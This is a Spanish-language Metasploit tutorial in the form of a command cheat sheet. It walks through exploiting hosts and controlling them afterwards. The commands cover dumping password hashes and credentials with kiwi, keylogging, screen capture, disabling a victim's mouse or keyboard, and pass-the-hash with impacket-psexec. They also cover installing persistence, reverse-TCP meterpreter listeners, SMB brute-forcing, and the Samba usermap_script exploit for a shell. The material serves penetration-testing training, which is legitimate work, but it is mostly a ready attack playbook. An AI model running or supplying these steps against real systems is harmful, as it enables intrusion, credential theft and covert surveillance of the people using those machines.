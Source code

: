 # Metasploit 

Tags: #Comandos #Metasploit #Payloads #Msfvenom #PassTheHash #Psexec

**Metasploit** es una plataforma de pruebas de penetración (Penetration Testing Framework) que se utiliza para realizar pruebas de seguridad en sistemas y aplicaciones. Esta plataforma es ampliamente utilizada por investigadores de seguridad, pentesters y profesionales de la seguridad para descubrir vulnerabilidades y realizar pruebas de explotación de vulnerabilidades. Metasploit se basa en un conjunto de herramientas de seguridad que incluyen un framework de desarrollo de exploits, un motor de base de datos de vulnerabilidades y una colección de módulos de explotación de vulnerabilidades.

En términos prácticos, Metasploit se utiliza para probar la seguridad de un sistema o aplicación mediante la realización de pruebas de penetración, con el objetivo de identificar y explotar vulnerabilidades de seguridad. Para hacer esto, Metasploit proporciona una gran cantidad de exploits, payloads y módulos de post-explotación, que pueden ser utilizados por los profesionales de seguridad para identificar vulnerabilidades y explotarlas. Al utilizar Metasploit, los profesionales de la seguridad pueden simular ataques reales y descubrir vulnerabilidades en sistemas y aplicaciones antes de que los atacantes malintencionados puedan hacerlo, lo que les permite corregir las vulnerabilidades y mejorar la seguridad de sus sistemas.

En esta clase, veremos cómo utilizar algunas de las funcionalidades de esta herramienta.


## Metasploit 

Verificar la DB del Metasploit y después entrar (Cuando se ejecuta por primera vez)
```bash 
❯ msfdb run
```

Ejecutar Metasploit
```bash 
❯ msfconsole -q              # q = Quitar el banner de inicio
```

Gestionar de forma mas organizada la información que vayamos recopilando. 
```bash 
❯ workspace             # Miramos los espacios de trabajo 
❯ workspace -a omar     # Creamos nuestro espacio de trabajo con el nombre 'omar'
❯ workspace default     # Cambiamos al espacio de trabajo llamado 'default', asi podemos ir cambiando de espacios de trabajo
```

```bash
❯ search ❮exploit❯                 # Buscamos el exploit
		# Modulos: 'Auxiliary, Exploits, Post, Payload'
		# Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'

❯ search platform:"windows"        # Buscar por el SO Windows  
❯ search platform:"linux"          # Buscar por el SO Linux 

❯ search platform:"windows" type:"exploit"       # Buscar exploits en Windows
❯ search platform:"windows" type:"encoder"       # Buscar encoder en Windows
```

Aplicas un reconocimiento en la red local con ARP 
```bash 
❯ use auxiliary/scanner/discovery/arp_sweep      # Para usar el exploit
❯ options                                        # Miramos las opciones del exploit y ver lo que es necesario cargar para hacer el barrido en la subred
❯ info 'o' info -d                               # Nos da una breve descripcion de lo que hace el exploit
❯ set RHOSTS 192.168.68.0/24                     # Colocamos la subred en donde queremos hacer el barrido del ARP
❯ run
❯ hosts                                          # Nos muestra los hosts que ha descubierto en el reconocimiento
❯ services                                       # Nos muestra los servicios, pero para que sea mas efectivo, debemos de pasarle el archivo XML de Nmap
```

En MetaSploit puedes importar archivos XML, el cual puedes obtener del escaneo con Nmap. 
```bash 
❯ db_import /home/omar/Documents/allports        # Importas a Metasploit un archivo XML llamado 'allPorts' colocando su ruta absoluta
```

```bash 
❯ use ❮Number or path❯       # Colocamos el numero del exploit que vamos a usar
❯ options                    # Miramos las opciones del exploit y lo que debemos de configurar
❯ show advanced options      # Miramos las opciones avanzadas del exploit y lo que debemos de configurar
❯ check                      # Nos dice si el RHOST es vulnerable a ese exploit sin explotarlo, esto depende del modulo, si trae esta opcion o no
❯ set LHOST ❮IP❯             # Configuramos el IP local eth0, ens33 (Si estamos en una VPN colocar el Tun0)
❯ set RHOSTS ❮IP❯            # Configuramos el IP remoto (maquina victima)
❯ set RPORT ❮Port❯           # Configuramos el puerto remoto (maquina victima)
❯ set LPORT ❮Port❯           # Configuramos el puerto local
❯ show targets               # Miras los targets disponibles (Diferentes versiones de Windows)
❯ set target ❮Number❯        # Seleccionamos el numero de target a usar
❯ show payloads              # Miramos los payload disponibles
❯ set payload ❮Path❯         # Colocamos la ruta del Payload a usar
❯ run                        # Ejecutamos el exploit  
```

Dentro de la maquina podemos hacer algunos comandos específicos
```bash 
❯ shell                      # Nos carga una shell
❯ load powershell            # Cargamos el modulo powershell
❯ powershell_shell           # Nos carga una powershell 
❯ getuid                     # Nos muestra el nombre del servidor o usuario en Windows  
❯ sysinfo                    # Nos muestra algunos detalles del servidor, arquitectura, SO, etc...
❯ ps                         # Mirar los procesos existentes
❯ hashdump                   # Para dumpear los hashes del sistema, crackearlos y hacer pass-the-hash
❯ load kiwi                  # Cargamos el modulo kiwi para poder usar 'creds_all'
❯ creds_all                  # Recopila informacion de credenciales de todo tipo
```

Usar Psexec
```bash 
❯ impacket-psexec WORKGROUP/omar@<IP Victima> -hashes :3ebi487y598ongyn98g56yng389yr6d6u  # Podemos hacer pass the hash y ser nt authority\system
❯ impacket-psexec WORKGROUP/omar:<Password>@<IP Victima>                                  # Podemos usar la passwd para entrar y ser nt authority\system
```

Comandos de Metasploit dentro de la maquina victima 
```bash 
❯ help                       # Miramos el panel de ayuda
❯ screenshot                 # Captura de pantalla del equipo
❯ load espia                 # Cargamos el modulo 'espia' y asi poder usar el 'screengrab, screenshare'
❯ screenshare                # Mirar el escritorio del usuario remoto en tiempo real 
❯ uictl disable <mouse>      # Podemos desabilitar (disable, enable) algunos componentes de interface de la maquina victima como: mouse, keyboard, all 
❯ keyscan_start              # Sniffer de pulsaciones del teclado
❯ keyscan_dump               # Nos muestra lo que capturo por el teclado con el comando anterior
❯ keyscan_stop               # Para el sniffer de pulsaciones del teclado
❯ background                 # Ponemos la sesion en segundo plano 
❯ sessions                   # Miramos las sesiones activas en segundo plano 
❯ sessions <id>              # Migras a alguna sesion que tenemos en segundo plano
```

Persistencia = Ganar acceso a la maquina victima cada cierto tiempo por si se pierde una conexión 
```bash 
❯ search persistence                                     # Miramos todos los modulos de persistencia
❯ search persistence platform:"windows"                  # Miramos los modulos de persistencia para Windows

❯ use exploit/windows/local/persistence_service          # Usamos un modulo de persistencia
❯ show options                                           # Este modulo nos pide una sesion ya establecida con la maquina victima
❯ set SESSION <id session>                               # Colocamos el id de la sesion que ya tenemos establecida anteriormente
❯ run 
```

Configuración del 'Listener' para las sesiones de persistencia 
```bash 
❯ use exploit/multi/handler                              # Usaremos el exploit
❯ show options 
❯ set payload windows/meterpreter/reverse_tcp            # Configuramos un payload dedicado a Windows 
❯ set LHOST <IP Atacante>                                # Configuramos nuestra IP
❯ run
```


Los dos tipos de payloads utilizados en ataques informáticos: **Staged** y **Non-Staged**.

-   **Payload Staged**: Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.
-   **Payload Non-Staged**: Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.

Es importante tener en cuenta que el tipo de payload utilizado en un ataque dependerá del objetivo y de las medidas de seguridad implementadas. En general, los payloads Staged son más difíciles de detectar y son preferidos por los atacantes, mientras que los payloads Non-Staged son más fáciles de implementar pero también son más fáciles de detectar.

Tipos de Payloads
```bash
Non-Stage               # Sends exploit shellcode all at once. Larger in size ando won't always work -> **windows/meterpreter_reverse_tcp**
Staged                  # Sends payload in stages. Can be less stable -> **windows/meterpreter/reverse_tcp**
```

## Puerto 445 'Reconocimiento'

```bash 
# Miramos la version del SMB
❯ msfconsole -q                  # q = Quitar el banner de inicio

	❯ search smb                                  # Buscamos el exploit
	❯ use auxiliary/scanner/smb/smb_version       # Usamos el auxiliar 
	❯ options
	❯ set RHOSTS 192.168.1.194                    # Colocamos la IP de la maquina victima
	❯ run 
```

```bash 
# Para saber si soporta SMB2
❯ msfconsole -q                                    # q = Quitar el banner de inicio

	❯ use auxiliary/scanner/smb/smb2              # Usamos el auxiliar
	❯ options
	❯ set RHOSTS 192.168.1.194                    # Colocamos la IP de la maquina victima
	❯ run 
```

```bash 
# Para enumerar los usuarios que existen en el SMB
❯ msfconsole -q                                    # q = Quitar el banner de inicio

	❯ use auxiliary/scanner/smb/smb_enumusers     # Usamos el auxiliar
	❯ options
	❯ set RHOSTS 192.168.1.194                    # Colocamos la IP de la maquina victima
	❯ run 
```

```bash 
# Para enumerar los directorios que existen en el SMB
❯ msfconsole -q                                    # q = Quitar el banner de inicio

	❯ use auxiliary/scanner/smb/smb_enumshares    # Usamos el auxiliar
	❯ options
	❯ set RHOSTS 192.168.1.194                    # Colocamos la IP de la maquina victima
	❯ run 
```

```bash 
	# Enumerar usuarios y passwds con un diccionario de Fuerza Bruta
❯ msfconsole -q                                               # q = Quitar el banner de inicio

	❯ use auxiliary/scanner/smb/smb_login                    # Usamos el auxiliar
	❯ options
	❯ set RHOSTS 192.168.1.194                               # Colocamos la IP de la maquina victima
	❯ set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix-users.txt 
	❯ set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
	❯ set VERBOSE false
	❯ run 

	❯ set smbuser <user>                                # si ya tenemos a un usuario enumerado lo podemos colocar con ese comando

# Diccionarios 
/usr/share/wordlists/metasploit/unix_passwords.txt
```

```bash 
# Para enumerar los nombres de los 'pipes' que existen en el SMB
❯ msfconsole -q                                    # q = Quitar el banner de inicio

	❯ use auxiliary/scanner/smb/pipe_auditor      # Usamos el auxiliar
	❯ options
	❯ set smbuser <admin>
	❯ set smbpass <passwd>
	❯ set RHOSTS 192.168.1.194                    # Colocamos la IP de la maquina victima
	❯ run 
```

## Puerto 445 'Exploit'

```bash 
# Algunas versiones con exploit (3.0.20)
❯ msfconsole -q                  # q = Quitar el banner de inicio

	❯ search samba 
	❯ use exploit/multi/samba/usermap_script       # Usamos el exploit
	❯ options
	❯ set RHOSTS 192.168.1.194                     # Colocamos la IP de la maquina victima
	❯ set LHOSTS 192.168.1.157                     # Colocamos la IP de nuestra maquina 
	❯ run 
	❯ shell 
```
